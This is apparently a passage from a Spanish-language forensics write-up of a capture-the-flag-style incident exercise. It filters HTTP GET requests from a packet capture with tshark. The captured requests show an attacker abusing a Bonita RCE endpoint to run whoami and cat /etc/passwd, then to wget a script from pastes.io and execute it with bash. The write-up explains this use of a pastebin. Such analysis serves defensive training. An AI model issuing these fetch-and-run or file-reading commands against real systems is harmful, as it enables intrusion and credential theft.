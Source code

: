 En caso afirmativo, ¿qué sitio de intercambio de textos utilizó el atacante?

Bueno, una vez que el atacante esta dentro del sistema, podemos buscar peticiones GET para obtener contenido de internet: 

```bash 
└─$ tshark -r meerkat.pcap -Y "http.request.method == GET"                                               
 2134 100.889598 156.146.62.213 53187 172.31.6.44  8080 HTTP 575 GET /bonita HTTP/1.1 
 2145 101.257636 156.146.62.213 53187 172.31.6.44  8080 HTTP 634 GET /bonita/portal/homepage HTTP/1.1 
 2931 334.077683 156.146.62.213 53272 172.31.6.44  8080 HTTP 399 GET /bonita/API/extension/rce?p=0&c=1&cmd=whoami HTTP/1.1 
 3586 548.039114 138.199.59.221 53382 172.31.6.44  8080 HTTP 410 GET /bonita/API/extension/rce?p=0&c=1&cmd=cat%20/etc/passwd HTTP/1.1 
 3652 562.041274 138.199.59.221 53386 172.31.6.44  8080 HTTP 432 GET /bonita/API/extension/rce?p=0&c=1&cmd=wget%20https://pastes.io/raw/bx5gcr0et8 HTTP/1.1 
 3748 587.400997 138.199.59.221 53401 172.31.6.44  8080 HTTP 410 GET /bonita/API/extension/rce?p=0&c=1&cmd=bash%20bx5gcr0et8 HTTP/1.1 
 4152 854.697943  172.31.6.44 37022 54.144.148.213 80 HTTP 241 GET /ubuntu/pool/main/l/lapack/libblas3_3.10.0-2ubuntu1_amd64.deb HTTP/1.1 
 4182 854.706337  172.31.6.44 37022 54.144.148.213 80 HTTP 1004 GET /ubuntu/pool/universe/libl/liblinear/liblinear4_2.3.0%2bdfsg-5_amd64.deb HTTP/1.1 GET /ubuntu/pool/main/l/lua5.3/liblua5.3-0_5.3.6-1build1_amd64.deb HTTP/1.1 GET /ubuntu/pool/universe/l/lua-lpeg/lua-lpeg_1.0.2-1_amd64.deb HTTP/1.1 GET /ubuntu/pool/universe/n/nmap/nmap-common_7.91%2bdfsg1%2breally7.80%2bdfsg1-2build1_all.deb HTTP/1.1 GET /ubuntu/pool/universe/n/nmap/nmap_7.91%2bdfsg1%2breally7.80%2bdfsg1-2build1_amd64.deb HTTP/1.1 
``` 

Y vemos que se hizo una petición al sitio **`pastes.io`**

### ¿Para qué sirve el sitio **pastes.io**?

**[pastes.io](https://pastes.io/)** es un **sitio de intercambio de textos**, también conocidos como *pastebins*. Sirve para:
- Publicar texto plano de forma temporal o permanente.
- Compartir rápidamente código, logs, comandos, scripts, etc.
- Obtener un enlace directo (como `/raw/...`) que devuelve el contenido sin formato HTML (solo el texto).

El atacante lo usó para **almacenar y luego descargar comandos maliciosos o scripts**. En tu caso:

```
wget https://pastes.io/raw/bx5gcr0et8
```

Esto le permite:
- Evitar cargar el payload directamente desde su IP (evade detección).
- Mantener el contenido editable/remoto.

---
**task 8**

Bien, para esto podemos visitar el enlace para saber de qué se trata el fichero: 

![](../assets/images/sherlock-meerkeat/imagen2.png)
